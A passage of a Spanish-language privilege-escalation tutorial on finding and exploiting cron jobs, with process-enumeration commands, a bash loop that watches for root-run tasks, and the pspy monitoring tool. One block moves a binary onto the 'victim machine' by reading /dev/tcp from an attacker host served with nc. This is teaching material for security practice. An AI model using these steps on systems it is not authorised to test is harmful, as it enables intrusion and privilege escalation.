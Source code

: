 El script lo que hace es ejecutar el comando “whoami” y el stdout lo redirige al archivo “myuser.txt” en “/tmp/”.

## Formas de identificar tareas cron

Un atacante debe identificar las tareas cron que están corriendo en el sistema. Hay varias formas en las que se puede hacer esto, una de ellas es hacerlo manualmente aprovechando el comando “ps -eo user,command” y la otra es con herramientas automatizadas como pspy.

```bash
ps -eo user,command

# Verificar tareas cron
crontab -l
cat /etc/crontab
```

El comando “ps -eo user,command” muestra todos los comandos que se están corriendo en el sistema actualmente y el usuario que los está ejecutando como se puede ver en la captura, además se ve que el usuario root está ejecutando cron por lo que se puede intuir que está ejecutando tareas cron.

![Untitled](/assets/Privesc/Exploiting-Cron-Tasks/Untitled 1.png)

Esto se puede aprovechar para crear un script que monitoree esta actividad.

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done
```

Se puede ver cómo abre y cierra la tarea que ejecuta el “script.sh”:

![Untitled](/assets/Privesc/Exploiting-Cron-Tasks/Untitled 2.png)

## Herramientas automatizadas

También se puede hacer el uso de herramientas automatizadas como pspy que lo que hará es monitorear el sistema en busca de comandos ejecutados por algún usuario.

Para esto primero hay que descargar el “pspy64”: https://github.com/DominicBreuker/pspy

![Untitled](/assets/Privesc/Exploiting-Cron-Tasks/Untitled 3.png)

Y una vez descargado envía el binario de la máquina local a la máquina víctima:

```bash
# Máquina víctima
cat < /dev/tcp/192.168.0.108/4646 > pspy

----

# Máquina local
nc -nlvp 4646 < pspy
```
